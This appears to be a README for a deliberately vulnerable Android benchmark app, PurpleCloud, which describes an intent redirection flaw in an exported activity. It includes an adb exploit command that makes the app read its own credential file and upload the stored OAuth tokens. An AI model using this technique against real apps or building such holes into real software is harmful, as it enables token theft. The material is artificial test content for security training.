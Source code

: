 # oxo-android-ben35 Intent Redirection Vulnerability

### Application

PurpleCloud is a cloud storage app that allows users to store, manage, upload, download, and organize their files in remote storage.

The application has an **Intent Redirection vulnerability** in its notification handling logic. Specifically, the app includes an exported activity named `NotificationDispatcherActivity` that accepts a string extra containing an `Intent` URI. This string is parsed into a full `Intent` object and launched without any validation.

This allows malicious applications to supply crafted `Intent` URIs that get executed with the **identity and permissions of the PurpleCloud app**, effectively bypassing Android’s component protection.

### Vulnerability Type and Category
- **Type:** Intent Redirection (Improper Input Validation)
- **Category:** Insecure Inter-Component Communication (ICC)

### Difficulty
Medium

### Mobile Application

- Introduces an exported activity: `NotificationDispatcherActivity`.
- This activity accepts an extra string key:
  - `com.purpleapps.purplecloud.REDIRECT_INTENT` → contains an `Intent` URI string.
- The string is parsed into an `Intent` and launched blindly.
- An attacker can craft malicious Intents to launch private components, such as `UploadActivity`, with attacker-controlled extras.

### Exploitation

1. Install and log into PurpleCloud as a normal user.
2. Execute the following command from `adb` (or simulate via a malicious app installed on the device):

```bash
adb shell am start -n com.purpleapps.purplecloud/.NotificationDispatcherActivity \
  --es com.purpleapps.purplecloud.REDIRECT_INTENT \
  "intent:#Intent;action=com.purpleapps.purplecloud.action.UPLOAD;\
  component=com.purpleapps.purplecloud/.UploadActivity;\
  S.com.purpleapps.purplecloud.extra.FILE_PATH=/data/data/com.purpleapps.purplecloud/shared_prefs/AuthPrefs.xml;\
  S.com.purpleapps.purplecloud.extra.LOGICAL_PATH=stolen_auth.xml;end"
```

The result is uploading OAuth2.0 tokens to the remote PurpleCloud storage.
